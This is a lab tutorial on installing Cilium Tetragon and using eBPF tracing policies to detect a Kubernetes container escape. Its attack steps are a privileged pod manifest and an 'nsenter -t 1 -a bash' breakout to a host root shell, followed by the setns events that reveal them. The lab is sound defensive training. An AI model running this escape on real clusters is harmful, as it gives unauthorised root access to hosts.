

# [Getting Started with Tetragon](https://isovalent.com/labs/security-observability-with-ebpf-and-cilium-tetragon/)
Security Observability is a new paradigm that utilizes eBPF, a Linux kernel technology, to allow Security and DevOps teams, SREs, Cloud Engineers, and Solution Architects to gain real-time visibility into Kubernetes and helps to secure your production environment with Tetragon.

Tetragon is an open source Security Observability and Runtime Enforcement tool from the makers of Cilium. It captures different process and network event types through a user-supplied configuration to enable security observability on arbitrary hook points in the kernel; then translates these events into actionable signals for a Security Team.

The best way to learn about Security Observability and Cilium Tetragon is to read the book “Security Observability with eBPF” by Jed Salazar and Natalia Reka Ivanko. And the best way to have your first experience with Tetragon is to walk through this lab, which takes the Real World Attack example out of the book and teaches you how to detect a container escape step by step!


## Install Tetragon

As a first step, let's check that the Kind cluster is running:
```bash
kubectl get nodes
```
Next, let’s install the open source Cilium Tetragon:
```bash
helm repo add cilium https://helm.cilium.io
helm repo update
helm install tetragon cilium/tetragon -n kube-system -f tetragon.yaml
```
Cilium Tetragon is running as a daemonset which implements the eBPF logic for extracting the Security Observability events as well as event filtering, aggregation and export to external event collectors.

Wait until the Tetragon daemonset is successfully rolled out.
```bash
kubectl rollout status -n kube-system ds/tetragon -w
```

## Add a TracingPolicy to observe Network Connections

To be able to detect the Real World Attack scenario from the book, we will need three TracingPolicies that we will apply during the different challenges. TracingPolicy is a user-configurable Kubernetes custom resource definition (CRD) that allows you to trace arbitrary events in the kernel and define actions to take on match.

The first TracingPolicy is going to be used to monitor networking events and track network connections. In our case, we are going to observe tcp_connect, tcp_close and kernel functions to track when a TCP connection opens, closes respectively:
```bash
kubectl apply -f networking.yaml
```
Now, you can start inspecting the Security Observability events by executing the following command:
```bash
kubectl exec -n kube-system -ti daemonset/tetragon -c tetragon -- \
    tetra getevents -o compact
```
As you see, a lot of events are coming in over time. We will have a closer look at them in the next challenge.

The setup to monitor security events is completed now. Click on Check to reach the next challenge where we will generate malicious security events.


## Console output:

```base

root@server:~# kubectl get nodes
NAME                 STATUS   ROLES           AGE     VERSION
kind-control-plane   Ready    control-plane   3m48s   v1.26.3
root@server:~# helm repo add cilium https://helm.cilium.io
helm repo update
helm install tetragon cilium/tetragon -n kube-system -f tetragon.yaml
"cilium" has been added to your repositories
Hang tight while we grab the latest from your chart repositories...
...Successfully got an update from the "cilium" chart repository
Update Complete. ⎈Happy Helming!⎈
NAME: tetragon
LAST DEPLOYED: Sat Jul  8 08:53:47 2023
NAMESPACE: kube-system
STATUS: deployed
REVISION: 1
TEST SUITE: None
root@server:~# kubectl rollout status -n kube-system ds/tetragon -w
daemon set "tetragon" successfully rolled out
root@server:~# kubectl apply -f networking.yaml
tracingpolicy.cilium.io/networking created
root@server:~# kubectl exec -n kube-system -ti daemonset/tetragon -c tetragon -- \
    tetra getevents -o compact
💥 exit    kind-control-plane /usr/local/sbin/runc --root /run/containerd/runc/k8s.io --log /run/containerd/io.containerd.runtime.v2.task/k8s.io/b54525e5320aae890d1b6972644c81dad863a5111d35c654c2e0dbb584855854/log.json --log-format json --systemd-cgroup exec --process /tmp/runc-process1673894670 --console-socket /tmp/pty1113756393/pty.sock --detach --pid-file /run/containerd/io.containerd.runtime.v2.task/k8s.io/b54525e5320aae890d1b6972644c81dad863a5111d35c654c2e0dbb584855854/b142a4a6b3c68e6cb9d689d0e724250dea387b0b1b673b1b8af4abb4e37d6cbc.pid b54525e5320aae890d1b6972644c81dad863a5111d35c654c2e0dbb584855854 0 🛑 CAP_SYS_ADMIN
🚀 process kind-control-plane /usr/local/sbin/runc --root /run/containerd/runc/k8s.io --log /run/containerd/io.containerd.runtime.v2.task/k8s.io/b54525e5320aae890d1b6972644c81dad863a5111d35c654c2e0dbb584855854/log.json --log-format json --systemd-cgroup exec --process /tmp/runc-process2825036657 --detach --pid-file /run/containerd/io.containerd.runtime.v2.task/k8s.io/b54525e5320aae890d1b6972644c81dad863a5111d35c654c2e0dbb584855854/643787aba2d6498c4983f64c834cadcc2731b1ecfc28db9511946182f24590b2.pid b54525e5320aae890d1b6972644c81dad863a5111d35c654c2e0dbb584855854 🛑 CAP_SYS_ADMIN
🚀 process kind-control-plane /proc/self/exe init          🛑 CAP_SYS_ADMIN
🚀 process kind-control-plane /dev/fd/5 init               🛑 CAP_SYS_ADMIN
💥 exit    kind-control-plane /dev/fd/5 init 0    🛑 CAP_SYS_ADMIN
💥 exit    kind-control-plane /usr/local/sbin/runc --root /run/containerd/runc/k8s.io --log /run/containerd/io.containerd.runtime.v2.task/k8s.io/b54525e5320aae890d1b6972644c81dad863a5111d35c654c2e0dbb584855854/log.json --log-format json --systemd-cgroup exec --process /tmp/runc-process2825036657 --detach --pid-file /run/containerd/io.containerd.runtime.v2.task/k8s.io/b54525e5320aae890d1b6972644c81dad863a5111d35c654c2e0dbb584855854/643787aba2d6498c4983f64c834cadcc2731b1ecfc28db9511946182f24590b2.pid b54525e5320aae890d1b6972644c81dad863a5111d35c654c2e0dbb584855854 0 🛑 CAP_SYS_ADMIN
🚀 process kube-system/tetragon-stbxn /usr/bin/tetra status --server-address localhost:54321 🛑 CAP_SYS_ADMIN
🔌 connect kube-system/tetragon-stbxn /usr/bin/tetra tcp 127.0.0.6:57027 -> 0.0.0.0:54321 🛑 CAP_SYS_ADMIN
🧹 close   kube-system/tetragon-stbxn /usr/bin/tetra tcp 127.0.0.6:0 -> 0.0.0.0:54321 🛑 CAP_SYS_ADMIN
🔌 connect kube-system/tetragon-stbxn /usr/bin/tetra tcp 127.0.0.1:30906 -> 127.0.0.1:54321 🛑 CAP_SYS_ADMIN
🧹 close   kube-system/tetragon-stbxn /usr/bin/tetra tcp 127.0.0.1:30906 -> 127.0.0.1:54321 🛑 CAP_SYS_ADMIN
🧹 close   kind-control-plane /usr/lib/systemd/systemd tcp 127.0.0.1:12756 -> 127.0.0.1:47736 🛑 CAP_SYS_ADMIN
💥 exit    kube-system/tetragon-stbxn /usr/bin/tetra status --server-address localhost:54321 0 🛑 CAP_SYS_ADMIN
💥 exit    kind-control-plane /usr/local/sbin/runc --root /run/containerd/runc/k8s.io --log /run/containerd/io.containerd.runtime.v2.task/k8s.io/b54525e5320aae890d1b6972644c81dad863a5111d35c654c2e0dbb584855854/log.json --log-format json --systemd-cgroup exec --process /tmp/runc-process2825036657 --detach --pid-file /run/containerd/io.containerd.runtime.v2.task/k8s.io/b54525e5320aae890d1b6972644c81dad863a5111d35c654c2e0dbb584855854/643787aba2d6498c4983f64c834cadcc2731b1ecfc28db9511946182f24590b2.pid b54525e5320aae890d1b6972644c81dad863a5111d35c654c2e0dbb584855854 0 🛑 CAP_SYS_ADMIN
🔌 connect kind-control-plane /usr/lib/systemd/systemd tcp 172.18.0.2:37568 -> 172.18.0.2:6443 🛑 CAP_SYS_ADMIN
🧹 close   kind-control-plane /usr/lib/systemd/systemd tcp 172.18.0.2:37568 -> 172.18.0.2:6443 🛑 CAP_SYS_ADMIN
🔌 connect kind-control-plane /usr/lib/systemd/systemd tcp 127.0.0.1:5249 -> 127.0.0.1:10257 🛑 CAP_SYS_ADMIN
🧹 close   kind-control-plane /usr/lib/systemd/systemd tcp 127.0.0.1:5249 -> 127.0.0.1:10257 🛑 CAP_SYS_ADMIN
🔌 connect kind-control-plane /usr/lib/systemd/systemd tcp 172.18.0.2:20186 -> 172.18.0.2:6443 🛑 CAP_SYS_ADMIN
🧹 close   kind-control-plane /usr/lib/systemd/systemd tcp 172.18.0.2:20186 -> 172.18.0.2:6443 🛑 CAP_SYS_ADMIN
🔌 connect kind-control-plane /usr/lib/systemd/systemd tcp 10.244.0.1:57501 -> 10.244.0.2:8080 🛑 CAP_SYS_ADMIN
🔌 connect kind-control-plane /usr/lib/systemd/systemd tcp 10.244.0.1:42712 -> 10.244.0.2:8181 🛑 CAP_SYS_ADMIN
🧹 close   kind-control-plane /usr/lib/systemd/systemd tcp 10.244.0.1:42712 -> 10.244.0.2:8181 🛑 CAP_SYS_ADMIN
🧹 close   kind-control-plane /usr/lib/systemd/systemd tcp 10.244.0.1:57501 -> 10.244.0.2:8080 🛑 CAP_SYS_ADMIN
🔌 connect kind-control-plane /usr/lib/systemd/systemd tcp 10.244.0.1:21228 -> 10.244.0.4:8181 🛑 CAP_SYS_ADMIN
🔌 connect kind-control-plane /usr/lib/systemd/systemd tcp 10.244.0.1:50898 -> 10.244.0.4:8080 🛑 CAP_SYS_ADMIN
🧹 close   kind-control-plane /usr/lib/systemd/systemd tcp 10.244.0.1:21228 -> 10.244.0.4:8181 🛑 CAP_SYS_ADMIN
🧹 close   kind-control-plane /usr/lib/systemd/systemd tcp 10.244.0.1:50898 -> 10.244.0.4:8080 🛑 CAP_SYS_ADMIN

```

# 🎬 Detecting a container escape
This lab takes the first part of the Real World Attack out of the book and teaches you how to detect a container escape step by step. During the attack you will take advantage of a pod with an overly permissive configuration ("privileged" in Kubernetes) to enter into all the host namespaces with the `nsenter` command.

From there, you will write a static pod manifest in the `/etc/kubernetes/manifests` directory that will cause the kubelet to run that pod. Here you actually take advantage of a Kubernetes bug where you define a Kubernetes namespace that doesn’t exist for your static pod, which makes the pod invisible to the Kubernetes API server. This makes your stealthy pod invisible to `kubectl` commands.

After persisting the breakout by spinning up an invisible container, you are going to download and execute a malicious script in memory that never touches disk. Note that this simple python script represents a fileless malware which is almost impossible to detect by using traditional userspace tools.

### Launch a privileged Pod

The easiest way to perform a container escape is to spin up a pod with "privileged" in the pod spec. Kubernetes allows this by default and the privileged flag grants the container all Linux capabilities and access to host namespaces. The hostPID and hostNetwork flags run the container in the host PID and networking namespaces respectively, so it can interact directly with all processes and network resources on the node.

In the tab >_ Terminal 1 on the left side, start inspecting the Security Observability events again. This time we will specifically look for the events related to the pod named sith-infiltrator, where the attack is going to be performed.
```bash
kubectl exec -n kube-system -ti daemonset/tetragon -c tetragon \
  -- tetra getevents -o compact --pod sith-infiltrator
```
Now, let's switch >_ Terminal 2 and apply the privileged pod spec:
```bash
kubectl apply -f sith-infiltrator.yaml
```
Wait until it becomes ready:
```bash
kubectl get pods
```
The output should be:
```bash
NAME                 READY   STATUS    RESTARTS   AGE
sith-infiltrator   1/1     Running   0          36s
```
#### Terminal 1

```bash
root@server:~# kubectl exec -n kube-system -ti daemonset/tetragon -c tetragon \
  -- tetra getevents -o compact --pod sith-infiltrator
🚀 process default/sith-infiltrator /usr/local/bin/mount-product-files /usr/local/bin/mount-product-files 🛑 CAP_SYS_ADMIN
🚀 process default/sith-infiltrator /usr/bin/jq -r .bundle 🛑 CAP_SYS_ADMIN
🚀 process default/sith-infiltrator /usr/bin/cp /kind/product_name /kind/product_uuid /run/containerd/io.containerd.runtime.v2.task/k8s.io/fd155db3e914ae489e8f06ae9054748eafd80e136ec1c94c07654c856176740c/rootfs/ 🛑 CAP_SYS_ADMIN
🚀 process default/sith-infiltrator /usr/bin/mount -o ro,bind /run/containerd/io.containerd.runtime.v2.task/k8s.io/fd155db3e914ae489e8f06ae9054748eafd80e136ec1c94c07654c856176740c/rootfs/product_name /run/containerd/io.containerd.runtime.v2.task/k8s.io/fd155db3e914ae489e8f06ae9054748eafd80e136ec1c94c07654c856176740c/rootfs/sys/class/dmi/id/product_name 🛑 CAP_SYS_ADMIN
🚀 process default/sith-infiltrator /usr/bin/mount -o ro,bind /run/containerd/io.containerd.runtime.v2.task/k8s.io/fd155db3e914ae489e8f06ae9054748eafd80e136ec1c94c07654c856176740c/rootfs/product_uuid /run/containerd/io.containerd.runtime.v2.task/k8s.io/fd155db3e914ae489e8f06ae9054748eafd80e136ec1c94c07654c856176740c/rootfs/sys/class/dmi/id/product_uuid 🛑 CAP_SYS_ADMIN
🚀 process default/sith-infiltrator /usr/bin/mount -o ro,bind /run/containerd/io.containerd.runtime.v2.task/k8s.io/fd155db3e914ae489e8f06ae9054748eafd80e136ec1c94c07654c856176740c/rootfs/product_uuid /run/containerd/io.containerd.runtime.v2.task/k8s.io/fd155db3e914ae489e8f06ae9054748eafd80e136ec1c94c07654c856176740c/rootfs/sys/devices/virtual/dmi/id/product_uuid 🛑 CAP_SYS_ADMIN
💥 exit    default/sith-infiltrator /usr/bin/jq -r .bundle 0 🛑 CAP_SYS_ADMIN
💥 exit    default/sith-infiltrator /usr/bin/cp /kind/product_name /kind/product_uuid /run/containerd/io.containerd.runtime.v2.task/k8s.io/fd155db3e914ae489e8f06ae9054748eafd80e136ec1c94c07654c856176740c/rootfs/ 0 🛑 CAP_SYS_ADMIN
💥 exit    default/sith-infiltrator /usr/bin/mount -o ro,bind /run/containerd/io.containerd.runtime.v2.task/k8s.io/fd155db3e914ae489e8f06ae9054748eafd80e136ec1c94c07654c856176740c/rootfs/product_name /run/containerd/io.containerd.runtime.v2.task/k8s.io/fd155db3e914ae489e8f06ae9054748eafd80e136ec1c94c07654c856176740c/rootfs/sys/class/dmi/id/product_name 0 🛑 CAP_SYS_ADMIN
🚀 process default/sith-infiltrator /docker-entrypoint.sh /docker-entrypoint.sh nginx -g "daemon off;" 🛑 CAP_SYS_ADMIN
🚀 process default/sith-infiltrator /usr/bin/find /docker-entrypoint.d/ -mindepth 1 -maxdepth 1 -type f -print -quit 🛑 CAP_SYS_ADMIN
🚀 process default/sith-infiltrator /usr/bin/find /docker-entrypoint.d/ -follow -type f -print 🛑 CAP_SYS_ADMIN
🚀 process default/sith-infiltrator /usr/bin/sort -V       🛑 CAP_SYS_ADMIN
🚀 process default/sith-infiltrator /docker-entrypoint.d/10-listen-on-ipv6-by-default.sh /docker-entrypoint.d/10-listen-on-ipv6-by-default.sh 🛑 CAP_SYS_ADMIN
🚀 process default/sith-infiltrator /usr/bin/basename /docker-entrypoint.d/10-listen-on-ipv6-by-default.sh 🛑 CAP_SYS_ADMIN
🚀 process default/sith-infiltrator /usr/bin/touch /etc/nginx/conf.d/default.conf 🛑 CAP_SYS_ADMIN
💥 exit    default/sith-infiltrator /usr/local/bin/mount-product-files /usr/local/bin/mount-product-files 0 🛑 CAP_SYS_ADMIN
💥 exit    default/sith-infiltrator /usr/bin/mount -o ro,bind /run/containerd/io.containerd.runtime.v2.task/k8s.io/fd155db3e914ae489e8f06ae9054748eafd80e136ec1c94c07654c856176740c/rootfs/product_uuid /run/containerd/io.containerd.runtime.v2.task/k8s.io/fd155db3e914ae489e8f06ae9054748eafd80e136ec1c94c07654c856176740c/rootfs/sys/class/dmi/id/product_uuid 0 🛑 CAP_SYS_ADMIN
💥 exit    default/sith-infiltrator /usr/bin/mount -o ro,bind /run/containerd/io.containerd.runtime.v2.task/k8s.io/fd155db3e914ae489e8f06ae9054748eafd80e136ec1c94c07654c856176740c/rootfs/product_uuid /run/containerd/io.containerd.runtime.v2.task/k8s.io/fd155db3e914ae489e8f06ae9054748eafd80e136ec1c94c07654c856176740c/rootfs/sys/devices/virtual/dmi/id/product_uuid 0 🛑 CAP_SYS_ADMIN
🚀 process default/sith-infiltrator /usr/bin/grep -q "listen  \[::]\:80;" /etc/nginx/conf.d/default.conf 🛑 CAP_SYS_ADMIN
🚀 process default/sith-infiltrator /usr/bin/dpkg-query --show --showformat=${Conffiles}\n nginx 🛑 CAP_SYS_ADMIN
🚀 process default/sith-infiltrator /usr/bin/grep etc/nginx/conf.d/default.conf 🛑 CAP_SYS_ADMIN
🚀 process default/sith-infiltrator /usr/bin/cut  "-d " -f 3 🛑 CAP_SYS_ADMIN
🚀 process default/sith-infiltrator /usr/bin/md5sum -c -   🛑 CAP_SYS_ADMIN
🚀 process default/sith-infiltrator /usr/bin/sed -i -E "s,listen       80;,listen       80;\n    listen  [::]:80;," /etc/nginx/conf.d/default.conf 🛑 CAP_SYS_ADMIN
🚀 process default/sith-infiltrator /docker-entrypoint.d/20-envsubst-on-templates.sh /docker-entrypoint.d/20-envsubst-on-templates.sh 🛑 CAP_SYS_ADMIN
🚀 process default/sith-infiltrator /usr/bin/basename /docker-entrypoint.d/20-envsubst-on-templates.sh 🛑 CAP_SYS_ADMIN
🚀 process default/sith-infiltrator /usr/bin/awk  "END { for (name in ENVIRON) { print ( name ~ // ) ? name : "" } }" 🛑 CAP_SYS_ADMIN
🚀 process default/sith-infiltrator /docker-entrypoint.d/30-tune-worker-processes.sh /docker-entrypoint.d/30-tune-worker-processes.sh 🛑 CAP_SYS_ADMIN
🚀 process default/sith-infiltrator /usr/bin/basename /docker-entrypoint.d/30-tune-worker-processes.sh 🛑 CAP_SYS_ADMIN
🚀 process default/sith-infiltrator /usr/sbin/nginx -g "daemon off;" 🛑 CAP_SYS_ADMIN
💥 exit    default/sith-infiltrator /usr/bin/find /docker-entrypoint.d/ -mindepth 1 -maxdepth 1 -type f -print -quit 0 🛑 CAP_SYS_ADMIN
💥 exit    default/sith-infiltrator /usr/bin/sort -V 0 🛑 CAP_SYS_ADMIN
💥 exit    default/sith-infiltrator /usr/bin/basename /docker-entrypoint.d/10-listen-on-ipv6-by-default.sh 0 🛑 CAP_SYS_ADMIN
💥 exit    default/sith-infiltrator /usr/bin/find /docker-entrypoint.d/ -follow -type f -print 0 🛑 CAP_SYS_ADMIN
💥 exit    default/sith-infiltrator /usr/bin/basename /docker-entrypoint.d/30-tune-worker-processes.sh 0 🛑 CAP_SYS_ADMIN
💥 exit    default/sith-infiltrator /usr/bin/dpkg-query --show --showformat=${Conffiles}\n nginx 0 🛑 CAP_SYS_ADMIN
💥 exit    default/sith-infiltrator /usr/bin/grep etc/nginx/conf.d/default.conf 0 🛑 CAP_SYS_ADMIN
💥 exit    default/sith-infiltrator /usr/bin/cut  "-d " -f 3 0 🛑 CAP_SYS_ADMIN
💥 exit    default/sith-infiltrator /usr/bin/touch /etc/nginx/conf.d/default.conf 0 🛑 CAP_SYS_ADMIN
💥 exit    default/sith-infiltrator /usr/bin/grep -q "listen  \[::]\:80;" /etc/nginx/conf.d/default.conf 1 🛑 CAP_SYS_ADMIN
💥 exit    default/sith-infiltrator /docker-entrypoint.d/10-listen-on-ipv6-by-default.sh /docker-entrypoint.d/10-listen-on-ipv6-by-default.sh 0 🛑 CAP_SYS_ADMIN
💥 exit    default/sith-infiltrator /usr/bin/basename /docker-entrypoint.d/20-envsubst-on-templates.sh 0 🛑 CAP_SYS_ADMIN
💥 exit    default/sith-infiltrator /usr/bin/md5sum -c - 0 🛑 CAP_SYS_ADMIN
💥 exit    default/sith-infiltrator /usr/bin/sed -i -E "s,listen       80;,listen       80;\n    listen  [::]:80;," /etc/nginx/conf.d/default.conf 0 🛑 CAP_SYS_ADMIN
💥 exit    default/sith-infiltrator /usr/bin/awk  "END { for (name in ENVIRON) { print ( name ~ // ) ? name : "" } }" 0 🛑 CAP_SYS_ADMIN
💥 exit    default/sith-infiltrator /docker-entrypoint.d/20-envsubst-on-templates.sh /docker-entrypoint.d/20-envsubst-on-templates.sh 0 🛑 CAP_SYS_ADMIN
💥 exit    default/sith-infiltrator /docker-entrypoint.d/30-tune-worker-processes.sh /docker-entrypoint.d/30-tune-worker-processes.sh 0 🛑 CAP_SYS_ADMIN
```

#### Terminal 2

```bash
root@server:~# kubectl apply -f sith-infiltrator.yaml
pod/sith-infiltrator created
root@server:~# ll
total 84
drwx------  7 root root  4096 Jul  8 09:00 ./
drwxr-xr-x 20 root root  4096 Jul  8 08:49 ../
-rw-r--r--  1 root root    16 Jun 28 15:32 .bash_aliases
-rw-r--r--  1 root root   371 Jul  8 09:05 .bash_history
-rw-r--r--  1 root root  1708 Jul  8 08:49 .bashrc
drwx------  3 root root  4096 Jun 28 15:32 .cache/
drwxr-xr-x  3 root root  4096 Jun 28 15:32 .config/
-rw-r--r--  1 root root   337 Jun 28 15:37 .gitconfig
drwxr-xr-x  3 root root  4096 Jul  8 08:53 .kube/
-rw-r--r--  1 root root   161 Jul  9  2019 .profile
drwx------  2 root root  4096 Jul  8 08:49 .ssh/
-rw-------  1 root root 14583 Jul  8 08:49 .vimrc
-rw-r--r--  1 root root   215 Jun 28 15:37 .wget-hsts
-rw-r--r--  1 root root   275 Jul  8 08:49 networking.yaml
-rw-r--r--  1 root root   246 Jul  8 09:00 sith-infiltrator.yaml
drwx------  3 root root  4096 Jun 28 15:30 snap/
-rw-r--r--  1 root root   220 Jul  8 09:00 sys-setns.yaml
-rw-r--r--  1 root root   275 Jul  8 08:49 tetragon.yaml
root@server:~# cat networking.yaml 
apiVersion: cilium.io/v1alpha1
kind: TracingPolicy
metadata:
  name: "networking"
spec:
  kprobes:
  - call: "tcp_connect"
    syscall: false
    args:
     - index: 0
       type: "sock"
  - call: "tcp_close"
    syscall: false
    args:
     - index: 0
       type: "sock"
root@server:~# cat sith-infiltrator.yaml 
apiVersion: v1
kind: Pod
metadata:
  name: sith-infiltrator
spec:
  hostPID: true
  hostNetwork: true
  containers:
  - name: sith-infiltrator
    image: nginx:latest
    ports:
    - containerPort: 80
    securityContext:
      privileged: true
root@server:~# cat tetragon.yaml 
tetragon:
  btf: /sys/kernel/btf/vmlinux
  image:
    tag: v0.9.0
  enableCiliumAPI: true
  exportAllowList: ""
  exportDenyList: ""
  exportFilename: "tetragon.log"
  enableProcessCred: true
  enableProcessNs: true
tetragonOperator:
  enabled: true
  image:
    tag: v0.9.0
root@server:~# kubectl get pods
NAME               READY   STATUS    RESTARTS   AGE
sith-infiltrator   1/1     Running   0          44s
```


### Security Observability events from "sith-infiltrator"

In >_ Terminal 1, you can identify the sith-infiltrator container start on the default Kubernetes namespace with the following `process_exec` and `process_exit` events generated by Cilium Tetragon:
```bash
🚀 process default/sith-infiltrator /docker-entrypoint.sh /docker-entrypoint.sh nginx -g "daemon off;" 🛑 CAP_SYS_ADMIN
🚀 process default/sith-infiltrator /usr/bin/find /docker-entrypoint.d/ -mindepth 1 -maxdepth 1 -type f -print -quit 🛑 CAP_SYS_ADMIN
[...]
💥 exit    default/sith-infiltrator /docker-entrypoint.d/20-envsubst-on-templates.sh /docker-entrypoint.d/20-envsubst-on-templates.sh 0 🛑 CAP_SYS_ADMIN
💥 exit    default/sith-infiltrator /usr/bin/basename /docker-entrypoint.d/30-tune-worker-processes.sh 0 🛑 CAP_SYS_ADMIN
💥 exit    default/sith-infiltrator /docker-entrypoint.d/30-tune-worker-processes.sh /docker-entrypoint.d/30-tune-worker-processes.sh 0 🛑 CAP_SYS_ADMIN
```
If you look up a few lines, you can inspect the /docker-entrypoint.sh shell script as an entry point which starts an nginx daemon:
```bash
🚀 process default/sith-infiltrator /docker-entrypoint.sh /docker-entrypoint.sh nginx -g "daemon off;" 🛑 CAP_SYS_ADMIN
```
You can see default configuration file edits for the nginx daemon:
```bash
🚀 process default/sith-infiltrator /bin/grep -q "listen  \[::]\:80;" /etc/nginx/conf.d/default.conf 🛑 CAP_SYS_ADMIN
🚀 process default/sith-infiltrator /usr/bin/dpkg-query --show --showformat=${Conffiles}\n nginx 🛑 CAP_SYS_ADMIN
💥 exit    default/sith-infiltrator /usr/bin/touch /etc/nginx/conf.d/default.conf 0 🛑 CAP_SYS_ADMIN
🚀 process default/sith-infiltrator /bin/grep etc/nginx/conf.d/default.conf 🛑 CAP_SYS_ADMIN
💥 exit    default/sith-infiltrator /bin/grep -q "listen  \[::]\:80;" /etc/nginx/conf.d/default.conf 1 🛑 CAP_SYS_ADMIN
```
Finally, you can see that the /usr/bin/nginx binary has started and listens on port 80:
```bash
🚀 process default/sith-infiltrator /bin/sed -i -E "s,listen       80;,listen       80;\n    listen  [::]:80;," /etc/nginx/conf.d/default.conf 🛑 CAP_SYS_ADMIN
...
🚀 process default/sith-infiltrator /usr/sbin/nginx -g "daemon off;" 🛑 CAP_SYS_ADMIN
```

Since the privileged flag was set to true in the Pod specification, the pod gained all the Linux capabilities. As an example, CAP_SYS_ADMIN is printed in the end of each Security Observability event. CAP_SYS_ADMIN gives a highly privileged access level equivalent to root access, it allows to perform a range of system administration operations mount(2), umount(2), pivot_root(2), sethostname(2), setdomainname(2), setns(2), unshare(2) etc.


### Add a TracingPoloicy to observe Privilege Escalation

To be able to detect the privilege escalation from the book, we will need to apply the second TracingPolicy. This TracingPolicy is going to monitor the sys-setns system call, which is used by processes during changing kernel namespaces. In >_ Terminal 2, apply the TracingPolicy:
```bash
kubectl apply -f sys-setns.yaml
```

#### Terminal 2

```bash
root@server:~# kubectl apply -f sys-setns.yaml
tracingpolicy.cilium.io/sys-setns created
root@server:~# cat sys-setns.yaml 
apiVersion: cilium.io/v1alpha1
kind: TracingPolicy
metadata:
  name: "sys-setns"
spec:
  kprobes:
  - call: "__x64_sys_setns"
    syscall: true
    args:
    - index: 0
      type: "int"
    - index: 1
      type: "int"
```


### Privilege Escalation

Now, let’s use >_ Terminal 2 and kubectl exec to get a shell in sith-infiltrator:
```bash
kubectl exec -it sith-infiltrator -- /bin/bash
```
In >_ Terminal 1, you can now observe the kubectl exec with the following process_exec event:
```bash
🚀 process default/sith-infiltrator /bin/bash            🛑 CAP_SYS_ADMIN
```
In >_ Terminal 2 in our kubectl shell, let's use nsenter command to enter the host's namespace and run bash as root on the host:
```bash
nsenter -t 1 -a bash
```
The nsenter command executes commands in specified namespaces. The first flag, -t defines the target namespace where the command will land. Every Linux machine runs a process with PID 1 which always runs in the host namespace. The other command line arguments define the other namespaces where the command also wants to enter, in this case, -a describes all the Linux namespaces, which are: cgroup, ipc, uts, net, pid, mnt, time.

So we break out from the container in every possible way and running the bash command as root on the host.


### Security Observability events from the nsenter command

We can identify this container escape by observing two process_exec and seven process_kprobe events in the second terminal. The first process_exec event is the nsenter command with the namespace command-line arguments:
```bash
🚀 process default/privileged-pod /usr/bin/nsenter -t 1 -a bash
```
The following seven process_kprobe events observe the sys-setns system call which was invoked every time when there was a kernel namespace change. This shows how we entered into the cgroup, ipc, uts, net, pid, mnt, time host namespaces.

```bash
🔧 setns   default/sith-infiltrator /usr/bin/nsenter cgroup       🛑 CAP_SYS_ADMIN
🔧 setns   default/sith-infiltrator /usr/bin/nsenter ipc          🛑 CAP_SYS_ADMIN
🔧 setns   default/sith-infiltrator /usr/bin/nsenter uts          🛑 CAP_SYS_ADMIN
🔧 setns   default/sith-infiltrator /usr/bin/nsenter net          🛑 CAP_SYS_ADMIN
🔧 setns   default/sith-infiltrator /usr/bin/nsenter pid          🛑 CAP_SYS_ADMIN
🔧 setns   default/sith-infiltrator /usr/bin/nsenter mnt          🛑 CAP_SYS_ADMIN
🔧 setns   default/sith-infiltrator /usr/bin/nsenter time         🛑 CAP_SYS_ADMIN
```

By observing the second process_exec event, we can detect the bash execution in the host namespace with nsenter as the parent process:
```bash
🚀 process default/sith-infiltrator /bin/bash            🛑 CAP_SYS_ADMIN
```
Now, that we are running the bash command as root on the host, the next step will be to maintain a foothold on the node and hide any traces of our activities!

Click on Next to see in the next challenge how this might be done — and how we can monitor it.

#### Terminal 1:

```bash
root@server:~# kubectl exec -n kube-system -ti daemonset/tetragon -c tetragon   -- tetra getevents -o compact --pod sith-infiltrator
💥 exit    default/sith-infiltrator /usr/bin/bash  0 🛑 CAP_SYS_ADMIN
💥 exit    default/sith-infiltrator /usr/bin/nsenter -t 1 -a bash 0 🛑 CAP_SYS_ADMIN
🚀 process default/sith-infiltrator /usr/bin/nsenter -t 1 -a bash 🛑 CAP_SYS_ADMIN
